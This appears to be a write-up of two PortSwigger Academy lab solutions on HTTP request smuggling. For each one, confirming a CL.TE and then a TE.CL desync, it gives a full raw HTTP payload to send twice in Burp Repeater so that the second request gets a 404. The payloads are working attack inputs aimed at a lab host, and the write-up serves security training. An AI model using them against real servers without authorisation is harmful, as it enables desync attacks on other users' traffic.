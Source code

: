 # HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
Reference: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses


## Quick Solution
In this case the CL.TE vulnerability must be exploited via differential response. Payload in the next paragraph.


## Solution
Using Burp Repeater, issue the following request twice:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```
The second request should receive an HTTP 404 response.

# HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
Reference: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses


## Quick Solution
In this case the TE.CL vulnerability must be exploited via differential response. Payload in the next paragraph.


## Solution
Using Burp Repeater, issue the following request twice:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
The second request should receive an HTTP 404 response.
